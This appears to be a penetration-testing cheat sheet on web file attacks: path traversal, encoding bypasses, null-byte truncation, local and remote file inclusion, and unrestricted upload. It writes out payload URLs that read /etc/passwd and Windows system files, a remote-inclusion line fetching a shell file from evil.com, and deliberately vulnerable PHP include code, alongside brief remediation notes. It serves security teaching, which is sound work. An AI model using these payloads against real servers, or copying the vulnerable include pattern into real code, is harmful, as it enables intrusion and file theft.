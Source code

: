 
# file and resource attacks

## Path traversal

Some web applications need to access resources on the file system to implement the web application such as images and static text. They sometimes use parameters to define the resources.

When these parameters are user-controlled, not properly sanitized and are used to build the resource path on the file system, security issues may arise.

```
http://somesite.com/getFile?path=awesome.pdf
```

Testing for path traversal using `../`

relative path...

```
http://somesite.com/getFile?path=../../../etc/passwd
```
absolute path...
```
http://somesite.com/getFile?path=/etc/passwd
```
on windows try
```
http://somesite.com/getFile?path=../../../windwos/win.ini

http://somesite.com/getFile?path=../../../boot.ini
```

* \*NIX Systems use `/`
* Windows uses drive letter and backslash: `C:\`

A *NULL BYTE* can be used to terminate a sequence...
```
%00

../../etc/password%00
```
Note that this does not work with PHP version >= 5.3.4

## Encoding

Web applications may perform filtering on these operations so try different encodings.

```
Character    URL encoding   16-bit unicode
.             %2e            %u002e
/             %2f            %u2215
\             %5c            %u2216
```

The payloads will now look like this...

```
../
%2e%2e%2f     
%2e%2e/
..%2f
..%255c
```

## Remediation

* filter the `/` or `\`

## File Inclusion Vulnerabilities

Vintage LFI (Local File Inclusion), PerlCGI from the early 90s...

```
visit.pl?url=../../../../etc/passwd
```

## Typical vulnerable code 1

```
http://target.site/index.php?location=IT
```

Code

```
<?php
  include("loc/" . $_GET('location'));
?>
```

Exploit

```
index.php?location=../../../etc/passwd
```

## with a null byte

Code

```
<?php
include($_GET['location'] . "/template.tlp");
?>
```

Exploit

```
index.php?location=../../../etc/passwd%00
```

The null by will terminate the string early effectively omitting the `/template.tlp` from the string.

## Remote File Inclusion (RFI)

Works in exactly the same way but the file is pulled remotely...

```
vuln.php?page=http://evil.com/shell.txt
vuln.php?page=http://duckduckgo.com
```

The shell.txt might contain anything or...

```
<?php
phpinfo();
?>
```

RFI is possible because the `allow_url_include` directive is set to On within *php.ini*, its good practice to set it to Off.

## Unrestricted File Upload

* https://www.owasp.org/index.php/Unrestricted_File_Upload

This vulnerability is very dangerous and can affect web servers that do not enforce policies on the nature of the files uploaded...

* the maximum file size (DoS)
* the nature of the file (is it an image or PDF)
